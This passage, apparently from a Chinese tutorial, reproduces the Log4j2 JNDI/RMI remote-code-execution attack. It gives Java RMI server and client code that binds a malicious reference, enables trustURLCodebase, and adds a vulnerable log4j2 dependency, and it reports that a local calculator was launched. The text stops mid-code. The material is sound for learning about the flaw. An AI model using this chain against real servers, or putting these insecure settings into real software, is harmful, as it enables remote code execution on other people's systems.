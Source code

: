 ```java
public class RmiClient {

    public static void main(String[] args) throws Exception {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");
        Context ctx = new InitialContext(env);
        ctx.lookup("hello");
    }
}
```
本地计算器被打开：<br />![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1639397892959-1d4cb09d-55b0-4d7d-9016-e04c75c10942.webp#clientId=u9fb0b82e-4aa1-4&from=paste&id=u63de5aa0&originHeight=662&originWidth=1080&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=shadow&taskId=u0d3536f4-0b9d-465a-b113-3947f589599&title=)<br />RMI Client
<a name="GHwY4"></a>
## 基于Log4j2的攻击
上面演示了基本的攻击模式，基于上述模式，再来看看Log4j2的漏洞攻击。<br />在Spring Boot项目中引入了log4j2的受影响版本：
```xml
<dependency>
  <groupId>org.springframework.boot</groupId>
  <artifactId>spring-boot-starter-web</artifactId>
  <exclusions><!-- 去掉springboot默认配置 -->
    <exclusion>
      <groupId>org.springframework.boot</groupId>
      <artifactId>spring-boot-starter-logging</artifactId>
    </exclusion>
  </exclusions>
</dependency>

<dependency> <!-- 引入log4j2依赖 -->
  <groupId>org.springframework.boot</groupId>
  <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
```
这里需要注意，先排除掉Spring Boot默认的日志，否则可能无法复现Bug。<br />修改一下RMI的Server代码：
```java
public class RmiServer {

    public static void main(String[] args) throws Exception {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        Registry registry = LocateRegistry.createRegistry(1099);
        System.out.println("RMI启动，监听：1099 端口");
        Reference reference = new Reference("com.secbro.rmi.BugFinder", "com.secbro.rmi.BugFinder", null);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("hello", referenceWrapper);
        Thread.currentThread().join();
    }
}
```
这里直接访问BugFinder，JNDI绑定名称为：hello。<br />客户端引入Log4j2的API，然后记录日志：
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class RmiClient {

    private static final Logger logger = LogManager.getLogger(RmiClient.class);

    public static void main(String[] args) throws Exception {
```